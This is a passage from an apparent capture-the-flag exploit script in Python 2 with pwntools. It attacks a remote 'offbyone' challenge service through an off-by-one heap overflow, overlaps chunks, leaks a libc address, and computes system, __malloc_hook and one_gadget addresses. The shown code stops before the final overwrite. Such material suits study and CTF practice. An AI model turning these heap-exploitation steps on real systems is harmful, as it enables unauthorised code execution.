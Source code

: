     def edit(index,note):
    	p.sendlineafter(">> ","2")
    	p.sendlineafter("index: ",str(index))
    	p.sendafter("note:",note)
    
    def delete(index):
    	p.sendlineafter(">> ","3")
    	p.sendlineafter("index: ",str(index))
    
    def show(index):
    	p.sendlineafter(">> ","4")
    	p.sendlineafter("index: ",str(index))


​    
​    
    #libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc=ELF('libc.so.6')
    #p=process('./offbyone')
    p = remote('202.112.51.184' ,19006)
    
    add(0x28,'A'*0x28)#0
    add(0xf8,'B'*0xf8)#1
    add(0x68,'C'*0x68)#2
    add(0x60,'D'*0x60)#3
    add(0x60,'E'*0x60)#4
    
    #raw_input()
    delete(1)
    edit(0,'A'*0x28+'\x71')
    #gdb.attach(p)
    edit(2,'C'*0x60+p64(0x170)+'\x70') #bypass check
    									#enlarge 1 and set fakehead of 3
    									#make it like 1 and 2 is one chunk
    
    add(0xf8,'F'*0xf8)					#it lays in 1


    show(2)								#2 now in unsorted bin because fake chunk is too large
    									#so it split into two chunk
    main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
    print hex(main_arena)
    
    libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
    print hex(libc_base)
    free_got = libc_base + libc.symbols['free']
    system=libc_base+libc.symbols['system']
    print "system",hex(system)


    malloc_hook=libc_base+libc.symbols['__malloc_hook']


    one_gadget=libc_base+0xf02a4# 0x4647c 0xe9415 0x46428 0xea36d
    #one_gadget=libc_base+0x4647c
    
    add(0x60,'Z'*0x60)#5 == 2		now 2 is used
    